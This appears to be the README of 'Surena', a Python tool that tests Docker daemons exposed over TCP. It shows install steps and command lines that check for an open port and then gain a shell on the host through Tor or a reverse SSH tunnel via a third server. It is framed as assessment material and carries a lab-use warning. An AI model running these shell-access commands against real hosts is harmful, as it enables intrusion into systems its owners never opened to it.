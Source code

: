 # Surena

Surena is a tool developed to assess vulnerabilities in Docker daemons when their ports are exposed to a TCP network. It is developed using Click, a Python CLI library, and the Docker SDK for Python. Surena demonstrates how a hacker can gain shell access from an insecure Docker host using two methods: Tor Network and SSH Reverse Tunneling. To explain how Surena works and how to use these methods, we have written an article on Medium that you can read by following this link: [article](https://medium.com/@norouzzadegan/69628c4be503).

## Installation

You can install Surena from PyPI by running the following command:

```bash
pip install surena
```

Once installed, you can run Surena using the following commands in your terminal. To view the available commands and options, use:

```bash
surena --help
```

Surena has two commands: `is-docker-host` and `get-docker-host`. The `is-docker-host` command is used for checking if the Docker daemon's port is accessible from the network. To understand its options, run the following command:

```bash
surena is-docker-host --help
```

For example, you can run this command with the following options:

```bash
surena is-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT
```

The `get-docker-host` command is used to gain shell access from the Docker daemon using two methods. To understand its options, run the following command:

```bash
surena get-docker-host --help
```
Please note, if Surena can gain shell access from the Docker host, it will create a text file named "WARNING.surena" in the "/root/" path of the Docker host.
For example, to gain shell access using the Tor Network method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method tor
```

To gain shell access using the Reverse SSH Tunneling method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method reverse-ssh --ssh-server-address $THIRD_SERVER_IP --ssh-server-username $THIRD_SERVER_USERNAME --ssh-server-password $THIRD_SERVER_PASSWORD --ssh-server-port $THIRD_SERVER_SSH_PORT
```

Please note that `$DOCKER_HOST_IP`, `$DOCKER_HOST_PORT`, `$THIRD_SERVER_IP`, `$THIRD_SERVER_USERNAME`, `$THIRD_SERVER_PASSWORD`, and `$THIRD_SERVER_SSH_PORT` should be replaced with the appropriate values.


Please note: Surena is intended for lab use and for understanding whether your Docker daemon is secure or insecure. DO NOT USE SURENA FOR MALICIOUS ACTIVITIES.

If Surena has helped you secure your infrastructure, particularly those utilizing Docker daemons over the network, we would be thrilled if you could consider supporting us by donating Dogecoin, Our Dogecoin wallet address for donations is: DRizEG8R6wW2cW5MNEAnERMMEMq6wupQMA
